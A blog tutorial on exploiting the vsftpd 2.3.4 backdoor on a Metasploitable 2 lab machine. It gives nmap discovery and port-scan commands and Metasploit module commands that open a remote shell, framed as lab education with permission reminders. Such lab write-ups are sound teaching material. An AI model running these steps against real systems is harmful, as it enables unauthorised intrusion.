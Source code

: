 ```yaml
---

title: "Exploiting vsftpd 2.3.4 on Metasploitable 2 using Metasploit" 
classes: wide 
header: 
    teaser: /assets/images/metasploit/vulnerabilidade vsftpd 2.3.4.jpeg 
    overlay\_image: /assets/images/metasploit/logo.png 
    overlay\_filter: 0.5 
ribbon: Red 
excerpt: "A step-by-step guide to exploiting the vsftpd 2.3.4 backdoor on Metasploitable 2 using Kali Linux and Metasploit." 
description: "A step-by-step guide to exploiting the vsftpd 2.3.4 backdoor on Metasploitable 2 using Kali Linux and Metasploit." 
categories:
    - Exploitation
    - Penetration Testing 
tags:
    - Metasploit
    - Ethical Hacking
    - Nmap
    - Cybersecurity 
toc: true 
toc\_sticky: true 
toc\_label: "On This Blog" 
toc\_icon: "biohazard"

---
```


# Intro

In this post, I’ll show how to **find, analyze, and exploit a vulnerability in vsftpd 2.3.4** (an old FTP server with a backdoor) using **Kali Linux** and **Metasploitable 2**. This tutorial is for **educational purposes only** and should only be used in a controlled lab environment. Never test without permission.

---

## **🔍 Step 1: Find the Target’s IP**

First, we need to identify the IP address of our **Metasploitable 2** machine. Run:

```bash
ip a  # On Linux
ifconfig  # Alternative command
```

On **Kali**, use:

```bash
nmap -sn 192.168.93.0/24
```

This will **list all devices** on the network, helping us locate Metasploitable 2 (e.g., **192.168.93.129**).

---

## **🔎 Step 2: Scan for Open Ports**

Once we have the target's IP, let’s **scan for open services**:

```bash
nmap -sV -p- 192.168.93.129
```

🔹 `-sV`: Detects service versions\
🔹 `-p-`: Scans **all** 65,535 ports

🚀 **Result:** Port **21 (FTP)** is open, running **vsftpd 2.3.4**, which is known to have a **backdoor**.

---

## **📌 Step 3: Exploit vsftpd 2.3.4**

Now, we use **Metasploit** to exploit the vulnerable service:

```bash
msfconsole
```

Select the exploit:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

Check the required options:

```bash
show options
```

Set the **target IP (RHOSTS)** and the **target port (RPORT)**:

```bash
set RHOSTS 192.168.93.129
set RPORT 21
```

Run the exploit:

```bash
exploit
```

If successful, this gives us a **remote shell** on the target! 🎯

---

## **🖥️ Step 4: What Can We Do With the Shell?**

Now that we have access, we can: ✔️ List files: `ls`\
✔️ Check users: `whoami`\
✔️ Read system info: `uname -a`

This is a basic **proof of concept (PoC)** of how an attacker can exploit outdated services.

---

## **⚠️ Ethical Hacking Reminder**

🔹 This tutorial is **for educational purposes only**.\
🔹 Always have **explicit permission** before testing security.\
🔹 Keep your systems **updated** to avoid these vulnerabilities.

---

## **📚 More Resources**

🔗 Metasploitable 2: [https://sourceforge.net/projects/metasploitable/](https://sourceforge.net/projects/metasploitable/)\
🔗 Metasploit Docs: [https://docs.metasploit.com/](https://docs.metasploit.com/)\
🔗 Nmap: [https://nmap.org/](https://nmap.org/)

Would you like to see more tutorials like this? Let me know in the comments! 🚀🔍 #CyberSecurity #EthicalHacking #Metasploit #PenTesting